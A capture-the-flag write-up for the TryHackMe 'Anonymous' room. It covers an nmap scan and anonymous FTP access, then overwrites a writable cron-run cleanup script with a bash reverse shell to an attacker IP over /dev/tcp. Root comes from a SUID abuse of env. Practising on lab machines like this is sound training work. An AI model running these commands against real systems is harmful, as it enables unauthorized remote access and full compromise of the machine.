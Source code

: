 ```yaml
---
layout: post
title: "Anonymous"
date: 2022-04-24
categories: [Tryhackme, Medium-THM]
tags: [security, linux, permissions, medium]
image: ../../assets/img/posts/Anonymous.png 

---
```


## Description

Not the hacking group.

|**Room**|[Internal](https://tryhackme.com/room/anonymous)|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Medium|
|**Creator**|[Nameless0ne](https://tryhackme.com/p/Nameless0ne)|

---

After deploying the machine, we'll get started with nmap scan,

```bash
sudo nmap -A -T4 -p- 10.10.180.242 -oN nmap_scan
```

![image](https://user-images.githubusercontent.com/67465230/164978442-e34ed3d4-d71a-42d6-96ee-bdb0c8f10250.png)

We found that open ports are 21 (FTP), 22 (SSH), 139,445 (SMB). With nmap scan result we know that we can login via FTP as anonymous user. So let's enumerate.

Connecting to ftp service via anonymous user,

```bash
ftp 10.10.180.242
```

We got successfully connected to machine via ftp. Now enumerating it,

![image](https://user-images.githubusercontent.com/67465230/164978450-50014b5d-f001-4c2c-9d95-5812ebc1be55.png)

we found directory called **scripts** and navigating to scripts,

![image](https://user-images.githubusercontent.com/67465230/164978680-f9336146-2196-4aa7-a2f4-da0d232d27da.png)

there we found 3 files, so we'll now download them to our local system.

using **get** command to download these files on our system.

![image](https://user-images.githubusercontent.com/67465230/164978453-8b31288d-38f5-4953-a868-948caeec3fb3.png)

Now that we've these 3 files on our local system, let's look inside what is their in these files,

```bash
cat to_do.txt
```

![image](https://user-images.githubusercontent.com/67465230/164978454-eaec24d5-a6c5-4484-9205-d931d424b800.png)

It's a normal text. Doesn't gonna help us much.

seeing the content of next file,

```bash
cat clean.sh
```

![image](https://user-images.githubusercontent.com/67465230/164978458-3a4c7de9-1bcd-4e4d-b5e1-5cd5e14609f9.png)

after looking at this, this reminds me **CronJobs**. Let's break down this script,
- the variable “tmp_files” is set as 0.
- In if check, the script checks whether value of tmp_files is equal to 0. If so, it echoes a message like: “Running cleanup script: nothing to delete” into “removed_files.log” file. Now that’s interesting. Because; if we look on the removed_files.log file, maybe we can get some valuable information.
- Lastly, in else condition, if the value of tmp_files is other than 0, it removes the file and prints another message.

Now, let's inspect removed_files.log file

```bash
cat removed_files.log
```

![image](https://user-images.githubusercontent.com/67465230/164978463-225b14c4-0378-434a-9204-7c2949e1c8f6.png)

We'll that's wasnt helpful at all. From further enumeration, we got that the **clean.sh** file is writable. So, if we put reverse shell (bash) on FTP, it'll get executed by cronjobs and we'll get the shell.

So let's edit the script, we'll put one liner bash reverse shell in this script including our listening IP and desired port,

```bash
bash -c 'exec bash -i &>/dev/tcp/10.9.189.151/4444 <&1'
```

![image](https://user-images.githubusercontent.com/67465230/164978464-6626fd67-d781-415e-9c8b-7251407bb969.png)

Now, we'll put this script into machine via FTP using **put** command.

```bash
put clean.sh clean.sh
```

![image](https://user-images.githubusercontent.com/67465230/164978467-a8ad4caa-9239-4ef0-9ddd-685f278747fc.png)

the first clean.sh represents the file which I've created in our local system and second file clean.sh represents the file already present on the ftp server. When this command gets executed, the file which we've created will modify the file which is already present. Now, we'll setup netcat listener on port 4444, and after waiting sometime, we'll get connection to machine on netcat.

![image](https://user-images.githubusercontent.com/67465230/164978469-af2c1b9b-8a55-454f-8ab8-5bde3e953919.png)

we are **namelessone** user. Let's look for user flag. 

Doing **ls** to establish all the files present in directory and we got our user flag,

![image](https://user-images.githubusercontent.com/67465230/164978471-7d46f3d7-cc56-440d-90be-a7c6c8534e5d.png)

Now, it's time for privilege escalation. We'll start it with searching for binaries which we can run with **sudo** command to elevate privilege.

```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/164978474-5fd28d1a-563e-44ae-bcee-b48173b3098f.png)

Since we can't find any binaries so now we'll find those binaries which has SUID bit set on them so we can abuse them to get system shell.

```bash
find / -type f -perm -04000 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/164978479-da4a883f-16b9-4ee4-99c4-8b5469960555.png)

We can see that there's a binary which has SUID bit set on it. So I tried to check this **env** on infamous helper GTFOBins https://gtfobins.github.io, and I found something which will help us to get system shell by abusing SUID.

![image](https://user-images.githubusercontent.com/67465230/164978482-1c6ddfd3-5df1-4e93-b148-f9e35bada294.png)

So when we run this command, this will get us system shell. Now, we'll do it as it says.

```bash
/usr/bin/env /bin/sh -p
```

![image](https://user-images.githubusercontent.com/67465230/164978485-5796e7c8-5bae-424c-bfa9-5c9c72c17441.png)

and we got system shell. Now, we can look for root flag.
